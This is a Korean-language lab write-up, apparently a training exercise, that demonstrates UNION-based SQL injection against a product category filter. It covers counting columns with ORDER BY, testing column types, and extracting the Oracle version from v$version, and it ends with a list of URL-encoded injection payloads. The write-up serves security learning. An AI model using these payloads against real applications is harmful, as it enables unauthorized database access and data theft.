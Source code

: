 여기서 공격자는 웹 애플리케이션과 데이터베이스 사이에서 사용되는 SQL 쿼리문의 구조를 유추하고 공격을 시도합니다.

```sql
SELECT _ FROM _ WHERE category = 'USER_INPUT';
```

---

### Step 2. SQL 쿼리문 구조 예측 후 공격 구문을 삽입하여 데이터 추출 시도
> **(IMAGE 1)** ORDER BY절을 이용하여 테이블의 컬럼 수 확인
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdAKvGQ%2FbtsKZw8ilUI%2FoeofDIUYUxRVo1lorM65hk%2Fimg.png" width=1300>

<br>

> **(IMAGE 2)** 컬럼 개수 확인 후 UNION절을 이용하여 Injectable SQL Query 작성
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fb8RBdl%2FbtsKZKkRMRk%2FD0rUKrxgGaIVyXQfdZTkhk%2Fimg.png" width=1300>

<br>

> **(IMAGE 3, 4)** 테이블의 컬럼 데이터 유형 확인
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcXURWP%2FbtsK0HOGTY1%2Fssy9lr9kNUVktG5enRFDXK%2Fimg.png" alt="[IMAGE 3] 테이블 > 컬럼 유형(TYPE) 확인">
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbCx8CY%2FbtsKZaYLDag%2F47ql4cPHJQwfnQJjtMXeC0%2Fimg.png" width=1300 alt="[IMAGE 4] 테이블 > 컬럼 유형(TYPE) 확인">

<br>

> **(IMAGE 5, 6)** 데이터베이스 버전정보 확인 (CORE 11.2.0.2.0 Production)
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbPoIhd%2FbtsK1mQxtwp%2FdTDYrU0YaxKXzgtGojVmm1%2Fimg.png" width=1300 style="align-center" caption="[IMAGE 5] 데이터베이스 버전 추출 쿼리 삽입">
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fyd5mB%2FbtsK0iuHWXX%2F9tSvEArCK0u7XmFjRaBtsK%2Fimg.png" width=1300>

<br>

### Payload
```

/filter?category=Accessories'%20ORDER%20BY%202--
/filter?category=Accessories'%20UNION%20SELECT%20null%2Cnull%20FROM%20DUAL--
/filter?category=Accessories'%20UNION%20SELECT%20123%2C456%20FROM%20DUAL--
/filter?category=Accessories'%20UNION%20SELECT%20%27123%27%2C%27456%27%20FROM%20DUAL--
/filter?category=Accessories'%20UNION%20SELECT%20banner%2C%27456%27%20FROM%20v$version--
```

---

<h2 style="text-align: center;" data-ke-size="size26"><b>END</b></h2>